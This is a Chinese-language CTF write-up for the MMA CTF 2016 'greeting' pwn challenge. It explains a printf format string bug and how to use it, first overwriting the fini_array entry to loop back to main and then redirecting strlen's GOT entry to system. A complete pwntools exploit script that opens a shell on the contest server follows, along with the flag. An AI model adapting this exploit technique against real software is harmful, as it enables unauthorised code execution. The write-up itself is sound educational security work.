 ```yaml
---
title: '[MMA CTF 2nd 2016] greeting 150'
author: bananaapple
tags:
  - MMA CTF 2nd 2016
  - pwn
  - format string
categories:
  - write-ups
date: 2016-09-05
layout: post
---
```

# 題目說明

![](https://i.imgur.com/6ZEFGgI.png)

題目一開始會用 getline(v6, 64) 讀取 input

接著 printf 沒有給參數會觸發 format string exploit

# exploit

這題有 system function 可以用，所以 exploit 會好寫許多

把 _do_global_dtors_aux_fini_array_entry 改成 main 的 address

在 main 結束後又可以回到 main 再輸入一次

然後再把 strlen 的 GOT 改成 system 的 PLT

當 strlen function 被呼叫的時候 strlen('sh') => system('sh')

就可以得到 shell 了

# payload

```python2
#!/usr/bin/env python2
from pwn import * 
ip = "pwn2.chal.ctf.westerns.tokyo"
port= 16317
s = remote(ip,port)
print(s.readline())

strlen_got = 0x8049a54
fini_got = 0x08049934

p = "qq"
p += p32(fini_got+2)
p += p32(strlen_got+2)
p += p32(strlen_got)
p += p32(fini_got)
p += "%"+str(2016)+"c"
p += "%"+str(12)+"$hn"
p += "%"+str(13)+"$hn"
p += "%"+str(31884)+"c"
p += "%"+str(14)+"$hn"
p += "%"+str(349)+"c"
p += "%"+str(15)+"$hn"

print(len(p))
p = p.ljust(62,"a")
s.sendline(p)

buf = s.readline()
print(buf)

s.sendline('sh')
s.interactive()

```

# flag

```
TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
```